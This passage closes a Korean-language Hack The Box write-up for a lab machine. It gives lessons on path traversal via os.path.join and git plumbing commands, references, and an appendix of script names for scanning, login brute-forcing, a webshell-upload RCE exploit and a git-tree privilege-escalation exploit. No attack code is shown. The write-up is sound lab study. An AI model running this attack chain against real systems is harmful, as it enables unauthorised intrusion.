4. `os.path.join()`은 두 번째 인자에 `..`가 포함되어도 정규화하지 않는다 — 사용자 제어 경로 문자열을 파일 시스템 연산에 사용할 때는 반드시 `os.path.realpath()` + 포함 관계 검증이 필요하다.
5. git의 로우레벨 플러밍 명령(`hash-object`, `mktree`, `commit-tree`)은 포터슬레인 명령의 검증(`..` 경로 차단 등)을 우회할 수 있다 — 저장소를 신뢰할 수 없는 소스로 사용하는 자동화 파이프라인은 이 점을 고려해야 한다.
6. HTB VPN처럼 ICMP가 차단된 터널에서는 Path MTU Discovery 블랙홀로 SSH 키 교환이 조용히 실패할 수 있다 — 클라이언트 재시도로 해결되지 않으면 `tcpdump`로 세그먼트 재전송 패턴을 확인하고 인터페이스 MTU를 낮춰본다.

## 16. 참고 자료

- CVE-2026-38526 관련 공개 리서치 (검색 시점 2026-08-24, 취약점 존재·CVSS 9.9·엔드포인트 확인 목적으로 참고, 공식 벤더 공지 링크는 별도로 확인하지 못함): `[외부 검증 필요 — 공식 공지를 확인하지 못함, 다수의 독립 보안 리서치 자료로 교차 확인함]`
- 본 문제 풀이 방향 검증을 위해 참고한 커뮤니티 자료: `https://github.com/mmoobbeeiidat-design/Hack-The-Box-Nexus-Findings-Report/blob/main/Nexus.md` — 공격 체인 순서(git 히스토리 → CRM RCE → 자격증명 재사용 → git tree 경로 순회) 일치 확인용으로만 참고했으며, 해당 문서의 플래그 값은 다른 인스턴스의 값이므로 본 문서에 인용하지 않았다.

## 부록 A. 사용한 스크립트

| 파일 | 용도 |
|------|------|
| `scripts/E01_nmap_full_tcp.sh` | 전체 TCP 포트 스캔 |
| `scripts/E02_nmap_sv.sh` | 서비스/버전 스캔 |
| `scripts/E04_ffuf_vhost.sh` | vhost 퍼징 |
| `scripts/E07_clone_repo.sh` | Gitea 저장소 클론 |
| `scripts/E09_login_attempt.sh`, `scripts/E10_login_bruteforce.sh` | CRM 로그인 시도 |
| `scripts/E11_login_and_dashboard.sh`, `scripts/E13_session_chain.sh` | CRM 세션 유지 검증 |
| `scripts/E14_explore_leads.sh` | CRM 기능 탐색 |
| `scripts/E15_pyupload.py` | CVE-2026-38526 RCE 익스플로잇(웹셸 업로드) |
| `scripts/E16_gitea_login_test.py` | Gitea 자격증명 재사용 검증 |
| `scripts/E17_gitea_path_traversal_exploit.sh` | 권한상승(git tree 경로 순회) 익스플로잇 |
| `scripts/E19_ssh_root_paramiko.py` | root SSH 접속 및 플래그 확인 |

## 부록 B. 원본 스캔 및 응답

`scans/`, `http/` 폴더의 원본 파일 참고(목록은 `notes/evidence-index.md`).

## 부록 C. 증적 목록

전체 증적 목록과 필드는 `notes/evidence-index.md`에 있다.
